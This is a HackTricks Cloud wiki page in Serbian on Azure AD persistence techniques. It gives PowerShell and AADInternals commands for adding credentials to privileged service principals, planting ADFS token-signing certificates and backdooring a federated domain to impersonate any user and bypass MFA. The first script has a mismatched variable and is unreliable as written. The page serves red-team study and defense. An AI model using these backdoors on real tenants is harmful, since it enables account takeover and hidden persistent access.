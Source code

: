 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

Podrazumevano, svaki korisnik može registrovati aplikaciju u Azure AD. Tako možete registrovati aplikaciju (samo za ciljni tenant) koja zahteva dozvole visokog uticaja uz admin saglasnost (odobrite je ako ste admin) - kao što je slanje maila u ime korisnika, upravljanje rolama itd. Ovo će nam omogućiti da **izvršimo phishing napade** koji bi bili veoma **plodonosni** u slučaju uspeha.

Štaviše, mogli biste takođe prihvatiti tu aplikaciju sa svojim korisnikom kao način da zadržite pristup.

### Applications and Service Principals

Sa privilegijama Administratora aplikacija, GA ili prilagođenom ulogom sa microsoft.directory/applications/credentials/update dozvolama, možemo dodati kredencijale (tajni ključ ili sertifikat) postojećoj aplikaciji.

Moguće je **ciljati aplikaciju sa visokim dozvolama** ili **dodati novu aplikaciju** sa visokim dozvolama.

Zanimljiva uloga koju bi trebalo dodati aplikaciji bila bi **Uloga administratora privilegovanih autentifikacija** jer omogućava **resetovanje lozinke** Globalnim Administratorima.

Ova tehnika takođe omogućava **obići MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Za autentifikaciju zasnovanu na sertifikatima

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federacija - Sertifikat za potpisivanje tokena

Sa **DA privilegijama** na lokalnom AD-u, moguće je kreirati i uvesti **novi sertifikat za potpisivanje tokena** i **sertifikate za dekriptovanje tokena** koji imaju veoma dugu validnost. Ovo će nam omogućiti da **se prijavimo kao bilo koji korisnik** čiji ImuutableID poznajemo.

**Pokrenite** sledeću komandu kao **DA na ADFS serveru(ima)** da biste kreirali nove sertifikate (podrazumevani lozinka 'AADInternals'), dodali ih u ADFS, onemogućili automatsko obnavljanje i restartovali servis:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Zatim, ažurirajte informacije o sertifikatu sa Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

Sa GA privilegijama na tenant-u, moguće je **dodati novu domenu** (mora biti verifikovana), konfigurisati njen tip autentifikacije na Federated i konfigurisati domenu da **veruje određenom sertifikatu** (any.sts u sledećoj komandi) i izdavaču:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## References

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
